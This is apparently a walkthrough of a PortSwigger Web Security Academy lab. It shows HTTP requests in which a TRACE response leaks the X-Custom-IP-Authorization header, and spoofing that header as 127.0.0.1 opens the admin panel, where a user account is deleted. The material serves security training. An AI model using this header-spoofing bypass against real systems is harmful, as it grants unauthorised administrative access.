

# [Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

## Lab

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

burpsuite scan:


trace request to `/my-account` end point after logged in as `wiener`:

```http
TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d

HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 889

TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: 27.76.202.160
```

## Solution

add a `X-Custom-IP-Authorization` header to request with random value:

```http
TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: abcd

HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 889

TRACE /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: abcd
```

try ``X-Custom-IP-Authorization: 127.0.0.1`:

```http
GET /my-account HTTP/1.1
Host: 0af9009b03a66c6ac1a83aba004100ff.web-security-academy.net
Cookie: session=S7xNNQuvhrXwXBThALd8C1z6Doh5CC5d
X-Custom-IP-Authorization: 127.0.0.1

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Connection: close
Content-Length: 3080

<a href="/admin">Admin panel</a>
```

access admin panel and delete carlos account => solved.
